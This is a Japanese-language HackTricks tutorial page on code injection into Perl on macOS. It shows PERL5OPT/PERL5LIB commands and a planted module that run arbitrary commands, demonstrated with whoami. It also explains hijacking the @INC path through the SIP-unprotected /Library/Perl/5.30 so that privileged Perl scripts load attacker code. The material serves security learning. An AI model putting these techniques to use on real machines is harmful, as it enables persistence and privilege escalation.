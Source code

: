 # macOS Perlアプリケーションのインジェクション

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)に参加する**または[**telegramグループ**](https://t.me/peass)に参加する**または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォローする**。
* **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください**。

</details>

## `PERL5OPT`および`PERL5LIB`環境変数を介して

環境変数PERL5OPTを使用すると、perlが任意のコマンドを実行することが可能です。\
たとえば、次のスクリプトを作成します：

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

次に**環境変数をエクスポート**して**perl**スクリプトを実行します：
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
別のオプションは、Perlモジュールを作成することです（例：`/tmp/pmod.pm`）：

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

その後、環境変数を使用します：
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## 依存関係を介して

Perlを実行している依存関係フォルダの順序をリストアップすることができます：
```bash
perl -e 'print join("\n", @INC)'
```
次のように返されます：
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
いくつかの返されたフォルダは存在しない場合がありますが、**`/Library/Perl/5.30`** は**存在**し、**SIP**によって**保護されていません**。また、このフォルダは**SIPによって保護されているフォルダよりも前に**あります。したがって、誰かがそのフォルダを悪用してスクリプトの依存関係を追加し、高特権のPerlスクリプトがそれを読み込むことができます。

{% hint style="warning" %}
ただし、そのフォルダに書き込むには**root権限が必要**であり、現在ではこの**TCCプロンプト**が表示されます：
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

たとえば、スクリプトが**`use File::Basename;`**をインポートしている場合、**`/Library/Perl/5.30/File/Basename.pm`**を作成して任意のコードを実行させることが可能です。

## 参考文献

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)
